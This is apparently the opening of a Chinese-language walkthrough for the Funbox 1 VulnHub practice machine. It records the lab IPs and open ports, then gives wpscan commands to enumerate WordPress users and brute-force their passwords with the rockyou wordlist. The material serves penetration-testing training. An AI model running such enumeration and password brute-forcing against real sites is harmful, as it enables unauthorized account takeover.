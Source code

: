 ```shell
| Not valid before: 2020-11-14T15:06:32
| Not valid after:  2021-11-14T15:06:32
| MD5:   1308 6ffe 0aa0 d469 6464 2d4d dbab dd48
| SHA-1: 7a0a d33a 9fc1 b469 295b abc6 8157 bf7b 0788 1a93
```





# funbox 1

## **本机ip：**

~~~
10.0.2.11 
~~~
## **靶机ip：**

~~~
10.0.2.15
~~~

## **信息收集：**

端口

> 21/tcp    open  ftp     syn-ack ttl 64
> 22/tcp    open  ssh     syn-ack ttl 64
> 80/tcp    open  http    syn-ack ttl 64
> 33060/tcp open  mysqlx  syn-ack ttl 64

` wpscan --url http://funbox.fritz.box/ --enumerate u --api-token  xxxxxxxxxxxxxxxxxxxxx` 

![image-20220822164625552](vulnhub靶场.assets/image-20220822164625552.png)

`wpscan --url http://funbox.fritz.box/ -P /usr/share/wordlists/rockyou.txt --max-threads 100`
